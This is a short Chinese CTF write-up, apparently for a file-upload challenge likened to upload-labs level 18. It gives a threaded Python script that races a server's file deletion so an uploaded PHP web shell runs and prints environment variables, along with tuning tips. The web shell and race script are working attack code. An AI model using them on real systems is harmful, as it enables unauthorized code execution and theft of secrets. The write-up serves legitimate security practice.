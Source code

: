 # 第十五章

完全等于upload-labs的第18关： https://www.cnblogs.com/CVE-Lemon/p/17806227.html

（甚至参数名都是一样的）

```py
import requests
import concurrent.futures
import threading
URL=""
def request(stop_event):
    url = f"{URL}upload.php"
    files = {'upload_file': open('shell.php', 'rb')}
    data = {'submit': '上传'}
    requests.post(url=url, data=data, files=files)
    r=requests.get(f'{URL}uploads/shell.php')
    if r.status_code == 200:
        print('OK')
        print(r.text)
        stop_event.set()
def main():
    num_requests = 800
    max_threads = 80
    stop_event = threading.Event()
    with concurrent.futures.ThreadPoolExecutor(max_threads) as executor:
        for _ in range(num_requests):
            if not stop_event.is_set():
                executor.submit(request, stop_event)
            else:
                break
    print("Program stopped")
if __name__ == "__main__":
    main()
```
`shell.php`的内容是：
```php
<?=`env`;
```
注意`num_requests`和`max_threads`不能设置得太高，否则wsrx会崩（估计是因为同一时刻的连接不能超过一个上限）

得到200的status code不等于成功。有可能遇到这样的提示：
```html
Unknown: Failed to open stream: No such file or directory in <b>Unknown</b> on line <b>0</b><br />
```
虽然请求成功到达了文件，但php真正解析并执行文件时文件被删除了。运气不好，多试几次或者把`num_requests`和`max_threads`参数调高可能就可以了